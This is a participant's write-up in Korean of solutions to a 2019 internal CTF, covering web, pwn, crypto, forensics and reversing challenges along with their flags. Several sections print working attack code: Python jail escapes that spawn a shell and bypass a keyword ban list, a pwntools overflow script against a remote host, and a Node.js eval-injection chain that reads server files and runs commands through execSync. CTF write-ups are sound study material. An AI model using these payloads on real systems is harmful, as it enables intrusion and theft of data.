




# A0V3R Internal CTF 2019 - 자라 (3st, 11686)
프라푸치노좋아그런데비싸그래서많이못먹어그래서슬퍼

## Verification

`8zKe=X^zASF+5t8g`

## Mic Check

`A0V3R{TH1S_I$_MICCH3CK}`

## Warning
```js
$("#button").click(function() {
	$.ajax({
		url: 'warning_check.php',
		type: 'post',
		data: { 'data':1 },
		success: function(result) {
			if(result != 'Don\'t Touch Me') { $("body").addClass("green-bg"); }
			alert(result);
		}
	})
});
```

`data`에 0이 아닌 1을 넣고 보내면 플래그를 준다.

`A0V3R{ST@aT_W3B_H@Ak}`

## pyjail
```
 junhoyeo@juno-4  ~  nc 45.32.254.239 7777

devonnuri : Hello Team A0V3R Members
devonnuri : I've got stuck in this jail... plz help me
devonnuri : To escape from here I need 'key'
devonnuri : But I think the key won't be able to get by normal way..
Search > __import__('os')
Result > <module 'os' from '/usr/lib/python2.7/os.pyc'>

Me : It would be helpful!
 junhoyeo@juno-4  ~  nc 45.32.254.239 7777

devonnuri : Hello Team A0V3R Members
devonnuri : I've got stuck in this jail... plz help me
devonnuri : To escape from here I need 'key'
devonnuri : But I think the key won't be able to get by normal way..
Search > __import__('os').system('sh')

pwd 
/
cd home
ls
basic_overflow
dupbob
flag_reader
misc
note
penguin
pyjail
retchall
cd pyjail
ls
main.py
cat main.py
```

```py
#!/usr/bin/env python

import sys
from time import sleep

print 'devonnuri : Hello Team A0V3R Members'
print 'devonnuri : I\'ve got stuck in this jail... plz help me'
print 'devonnuri : To escape from here I need \'key\''
print 'devonnuri : But I think the key won\'t be able to get by normal way..'

ban = ['key', '"']
sys.stdout.write('Search > ')
sys.stdout.flush()
command = raw_input()

sys.stdout.flush()

for item in ban:
	if item in command:
		print '\nPolice : You\'ve been arrested because of suspicious behavior.'
		print 'devonnuri : Noooooo...\n'
		print '* Hint : Some time ago this man found the key and escaped. So all the guards hide their keys so they can not be seen easily.'
		sys.exit(0)
try:
	print 'Result > ' + str(eval(command))
	print '\nMe : It would be helpful!'
except:
	print 'Me : Hmm.. It seems not useful'

# key = "A0V3R{(sigh) Finally I escaped out of the jail..}"
```

`__import__('os').system('sh')`

쉘이 열린다.

`A0V3R{(sigh) Finally I escaped out of the jail..}`

## Archives
pptx 파일을 뜯으니 `image5.png` 파일에 플래그가 있었다.



`A0V3R{5omeTh1ng_1ns1de_PptX}`

## R_S_P
띠용?

```
 junhoyeo@juno-4  ~  nc 45.32.254.239 3122
3rock! scissor! paper!

1. rock
2. scissor
3. papaer!

Input.. : 
Win!!!
rock! scissor! paper!

1. rock
2. scissor
3. papaer!

Input.. : 1   
Win!!!
rock! scissor! paper!

1. rock
2. scissor
3. papaer!

Input.. : 1
Win!!!
rock! scissor! paper!

1. rock
2. scissor
3. papaer!

Input.. : 1
Win!!!

A0V3R{Rock_Sc1sS0r_____P4Pa3r!!!@!}
```

가위바위보에서 승률이 가장 높은 전략 중 하나는 랜덤이다.

`A0V3R{Rock_Sc1sS0r_____P4Pa3r!!!@!}`

## 2EZ



`A0V3R{D0TN3T_I$_T00_EZ~}`

## Moving but not moved
```
$ binwalk -D=".*" SWAG.gif

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             GIF image data, version "89a", 448 x 448
204725        0x31FB5         PNG image, 1280 x 720, 8-bit colormap, interlaced
205716        0x32394         Zlib compressed data, compressed
```

binwalk를 통해서 `0x31FB5`에 png 파일이 있다는 것을 알 수 있다. 



`A0V3R{1_CaN_f1Nd_wh4t's-1nside}`

## basic_overflow

```py
from pwn import *
e = ELF('./i_like_basketball')
flag_addr = e.symbols['No']
log.info('flag : ' + hex(flag_addr))
r = remote('45.32.254.239', 31338)
print r.recv()
payload = 'basketball' + p32(flag_addr) * 15
log.info('payload: ' + payload)
log.info('length: ' + str(len(payload)))
r.sendline(payload)
print r.recv()
```

```
[*] '/Users/junhoyeo/Downloads/Kawai_SuzukazeAoba/i_like_basketball'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] flag : 0x80484db
[+] Opening connection to 45.32.254.239 on port 31338: Done
What's Your Favorite Sport? :
[*] payload: basketballۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0ۄ\x0
[*] length: 70
A0V3R{1nt3rest1ng_0v3rFl0w!!}

[*] Closed connection to 45.32.254.239 port 31338
```

`A0V3R{1nt3rest1ng_0v3rFl0w!!}`

## advncd

> 문제
> *OUTPUT=28336271723625621400291915357380763047064901306592659101764007220442435993543615201281123628212671635829827576818360202632219005819369981113781936503583514514667620727048628573682121139828219924297734067647850077629307611423438246495379152015625*
>
> ```py
> p=9362893924416558817005731809304460976889385237000925600765012220159637608700278966502663257941313762558839734285246761987286904048216823537965888005151007
> q=11042915926827111565131781204181357103947359064126992182834478941284965841475256440177445872052699945700430202124583380673901333315363380500614636054853329
> e=2
> n=p*q
> from binascii import hexlify
> k=int(hexlify(input().encode()),16)
> print(pow(k,e,n))
> ```

```py
import math
from binascii import unhexlify

c = 28336271723625621400291915357380763047064901306592659101764007220442435993543615201281123628212671635829827576818360202632219005819369981113781936503583514514667620727048628573682121139828219924297734067647850077629307611423438246495379152015625
# a = math.sqrt(c) # A0V3R{h
a = 168333810399532100059595919498732302518413559818016242847331329126582542836718184010222864543466998168897301178560625472125
print(hex(int(a))[2:-1].decode('hex'))
```

https://www.calculator.net/big-number-calculator.html?cx=28336271723625621400291915357380763047064901306592659101764007220442435993543615201281123628212671635829827576818360202632219005819369981113781936503583514514667620727048628573682121139828219924297734067647850077629307611423438246495379152015625&cy=&cp=20&co=sqrt

숫자가 너무 커서 Big Number Calculator 서비스를 이용해서 풀었다.

`A0V3R{hiiragi_shinoa_is_world_best_anime_charactor}`

## Inside the beat
`sakura skip.mp3` 앞부분에 있었다. 파일 끝부분에 플래그 일부분이 있어서 조금 헷갈렸다.

`A0V3R{Y3s!-YoU-1t's_1NsId3_Th3_track!}`

## 0v3r_easy
```py
byte_403020 = [57, 72, 46, 75, 42, 3, 1, 29, 11, 39, 12, 16, 17, 11, 39, 17, 11, 39, 26, 25, 11, 17, 27, 39, 0,23, 10, 39, 8, 10, 23, 26, 5, 31]
flag = []
for i in range(33):
    flag.append(chr(120 ^ byte_403020[i]))
print(''.join(flag))
```

`A0V3R{yes_this_is_basic_xor_prob}`

## PPNG

height를 `0x200`으로 바꾸고 https://online.officerecovery.com/pixrecovery 온라인 툴에 넣고 돌렸다.



`A0V3R{Funny!!_M1SC_CS1M!!!}`

## pyjail_revenge
```
 junhoyeo@juno-4  ~/Downloads/Kawai_SuzukazeAoba  nc 45.32.254.239 7778
Last pyjail was too ez, isn't it?
So I will give you one more question.
It'll be quite tricky.
Give it a try!
 > __builtins__.__dict__['__im''port__']('subprocess').call(['/bin/sh','-s'])
cat home/flag
cat: home/flag: No such file or directory
cd home
cat pyjail2/flag
A0V3R{na.hwa.nat.da}
cat main.py
```

```py
#!/usr/bin/python3

import sys

print('Last pyjail was too ez, isn\'t it?')
print('So I will give you one more question.')
print('It\'ll be quite tricky.')
print('Give it a try!')
sys.stdout.write(' > ')
sys.stdout.flush()

command = input()

for word in ['eval', 'exec', 'import', 'os', 'cat', 'system', 'open', 'read', '+', '"']:
        if word in command:
                print('Go away!!')
                sys.exit(0)

try:
        exec(command)
except:
        print('Hmm...')
```

`__builtins__.__dict__['__im''port__']('subprocess').call(['/bin/sh','-s'])`

`A0V3R{na.hwa.nat.da}`

## NOTBARCODE

`A0V3R{DATA_EXTRACTION_AND_GUESSING_FUNZ}`

## EasyNodeJS

```js
var formData = new FormData();
formData.append('server', 'http://127.0.0.1:${port}/timeserver');
formData.append('timezone', document.getElementById('timezone').value);

var req = new XMLHttpRequest();
req.open('POST', '/time', false);
req.send(formData);
```

사이트에 접속하면 위와 같은 코드가 있다.

```py
import requests
r = requests.post('http://45.76.211.144:1357/time', data={
    'server': 'http://example.com',
    'timezone': '0'
})
print(r.text)
```

본인 서버를 `server`에 넣고 위처럼 리퀘스트를 보내고 들어온 데이터를 확인한다.

```json
{
	"command": "timeOffset = 0;"
}
```

`command`로 들어온 문자열이 `eval`로 실행되는 듯하다.

`timezone`에 `0;`등의 값을 넣어 보았는데도 문제가 없다(단, 유효하지 않은 코드를 보내면 Internal Server Error가 뜬다).

이를 통해서 Command Injection 취약점이 발생한다는 것을 알 수 있다.

`timezone`을 아래와 같은 코드로 수정하자, `index.js` 파일 내용을 구할 수 있었다.

`try`, `catch` 문을 이용해서 발생하는 에러 역시 전송되게 했다.

```py
import requests
r = requests.post('http://45.76.211.144:1357/time', data={
    'server': 'http://45.76.211.144:1357/timeserver',
    'timezone': "0;try{fs=require('fs');res.send(fs.readFileSync(__filename))}catch(e){res.send(e.message)}"
})
print(r.text)
```

같은 방법으로 현재 디렉토리(`__dirname`)에 있는 파일 리스트를 확인(`fs.readdirSync`)하고 플래그 파일의 위치를 찾아 내용을 출력하게 할 수 있을 것이다.

```py
# 현재 폴더 경로를 구한다.
import requests
r = requests.post('http://45.76.211.144:1357/time', data={
    'server': 'http://45.76.211.144:1357/timeserver',
    'timezone': "0;try{res.send(__dirname)}catch(e){res.send(e.message)}"
})
print(r.text)
# /opt/simplemvc

# 현재 폴더 내용을 읽는다.
import requests
r = requests.post('http://45.76.211.144:1357/time', data={
    'server': 'http://45.76.211.144:1357/timeserver',
    'timezone': "0;try{fs=require('fs');res.send(fs.readdirSync(__dirname))}catch(e){res.send(e.message)}"
})
print(r.text)
# flag,index.js,node_modules,package-lock.json,package.json

# 플래그 파일을 읽는다.
import requests
r = requests.post('http://45.76.211.144:1357/time', data={
    'server': 'http://45.76.211.144:1357/timeserver',
    'timezone': "0;try{fs=require('fs');res.send(fs.readFileSync(__dirname + '/flag'))}catch(e){res.send(e.message)}"
})
print(r.text)
# A0V3R{eval_is_s00000_evil, and devonnuri is handsome guy}

# 이렇게 명령어 실행이 가능하다.
import requests
r = requests.post('http://45.76.211.144:1357/time', data={
    'server': 'http://45.76.211.144:1357/timeserver',
    'timezone': """0;try{const { execSync } = require('child_process');res.send(execSync('id'))}catch(e){res.send(e.message)}"""
})
print(r.text)
# uid=1000(simplemvc) gid=1000(simplemvc) groups=1000(simplemvc)
```

이런 식으로 풀면 된다.

플래그를 찾느라 고생했는데 사실 파일이 없어진 거였다. 리워드로 997점을 늦게 받았는데 이미 대회가 끝난 뒤여서 3등으로 종료되었다(원래는 12683점으로 2등).

좀만 더 일찍 살펴볼껄...

`A0V3R{eval_is_s00000_evil, and devonnuri is handsome guy}`
